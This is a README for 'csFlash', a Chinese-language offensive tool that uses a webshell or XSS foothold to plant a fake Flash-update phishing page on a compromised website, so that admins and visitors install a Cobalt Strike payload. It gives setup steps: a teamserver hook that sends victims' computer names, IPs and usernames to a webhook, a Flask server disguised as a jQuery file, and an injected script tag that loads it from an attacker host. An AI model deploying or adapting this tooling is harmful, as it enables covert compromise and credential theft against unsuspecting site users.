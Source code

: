 # csFlash
适用于拿到webshell后进行cs钓鱼

## 效果
当获取到webshell或站点存在xss漏洞时，想获得站点运维人员/网站访问人员主机权限，可在web中插入js钓鱼页面

参考 https://github.com/r00tSe7en/Flash-Pop
![image](https://user-images.githubusercontent.com/38282439/197719314-d685b6ec-b007-4097-a0a0-2f7e6463de53.png)

此项目实现cs上线后自动隐藏钓鱼页面功能


## 使用方法

1.在*CS-PushPlus/PushPlus.py*配置好webhook的token，默认使用推送加，可自定义修改为钉钉、企业微信
<img width="714" alt="image" src="https://user-images.githubusercontent.com/38282439/197714243-1df4c320-b337-41c9-ba59-b455a459847f.png">

并配置好数据库文件路径

<img width="608" alt="image" src="https://user-images.githubusercontent.com/38282439/197714659-e8ce0270-b61d-4f27-b985-e894cc50b76c.png">

2.配置好*CS-PushPlus/PushPlus.cna*文件中绝对路径

```
$cmd = 'python3 /CS-PushPlus/PushPlus.py' . " --computernam " . $computerName . " --externalip " . $externalIP . " --username " . $userName;
```

3.启动cs teamserver 、连接cna脚本置于后台
```
./agscript.sh 127.0.0.1 50050 User Pass ./CS-PushPlus/PushPlus.cna
```

4.启动js服务并置于后台，需要修改ssl证书信息
（也可使用http服务，但不建议，否则可能在https站点无法加载此js文件）
```
python3 flaskHttpd.py 
```
5.于nginx等web服务器配置，或开启防火墙使得能够通过路径访问到此flask服务
```
        location /public/common/libs/jquery/jquery-1.9.1.min.js {
                proxy_pass $flaskHttpd;
                }
```
6.替换项目中flash.exe文件，将flask的url插入到web页面中
```
<script src=https://xxxxx.com/public/common/libs/jquery/jquery-1.9.1.min.js> </script>
```

